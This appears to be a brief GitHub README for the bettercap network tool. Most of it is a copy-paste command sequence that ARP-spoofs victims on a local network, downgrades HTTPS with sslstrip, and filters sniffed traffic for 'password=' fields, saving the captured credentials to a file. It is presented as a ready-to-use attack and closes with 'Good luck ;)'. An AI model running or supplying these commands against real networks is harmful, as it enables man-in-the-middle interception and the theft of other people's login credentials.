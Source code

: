 # bettercap
![](https://github.com/nu11secur1ty/bettercap/blob/master/Logo/logo.png)
- Start:
```bash
bettercap -iface _your_interface_
```
- - Sniffing of the victim login credentials a Layer 2 Network

```bash
set http.proxy.sslstrip true
set net.sniff.verbose false
set arp.spoof.targets 0.0.0.0
set net.sniff.filter not arp (default=not arp)
set net.sniff.local true
set net.sniff.regexp .*password=.+
set net.sniff.verbose true
set net.sniff.output passwords.pcap
arp.spoof on
http.proxy on
net.sniff on
```
-----------------------------------------------------------

# Password sniff
```bash
set net.sniff.regexp .*password=.+
set net.sniff.output passwords.cap
```
# start arp spoofing attack
```bash
# arp.spoof on
net.sniff on
```
# Good luck ;)
